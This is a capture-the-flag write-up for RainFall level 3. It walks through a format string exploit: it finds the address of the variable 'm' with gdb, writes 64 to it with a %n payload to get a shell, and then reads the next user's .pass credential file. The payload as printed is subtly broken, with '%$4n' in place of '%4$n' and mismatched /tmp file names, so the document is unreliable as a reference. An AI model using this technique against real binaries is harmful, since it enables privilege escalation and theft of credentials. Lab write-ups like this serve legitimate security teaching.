

**LEVEL 3**

This time, the binary doesn't call gets(), but fgets() which is protected against overflow since it takes an argument that limits the size of the input.



But just after, it calls printf() which as all format string functions allows us to do a lot of things.

After this call we see an if statement verifing if a non declared variable 'm' equals 64. If so, it opens a shell.

First we take a look at printf().


We can see that the fourth argument reached the beginning of the fstring (0x61 is ASCII code for a, 0x62 for b).

Next, we use gdb to find m address:

```bash
level3@RainFall:~$ gdb ./level3
(gdb) i addr m
Symbol "m" is at 0x804988c in a file compiled without debugging.
```

Now we have all we need to create the magic payload. We are going to write 64 at m address using the %n format specifier. To do so we need to give to printf() a fstring containing first the m address, 64 characters at all, and then the writing format specifier with a positional argument set at 4:

```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a"*60 + "%$4n"' > /tmp/payload3
level3@RainFall:~$ (cat /tmp/payload; cat) | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
whoami
level4
cat /home/user/level4/.pass
[pass]
```

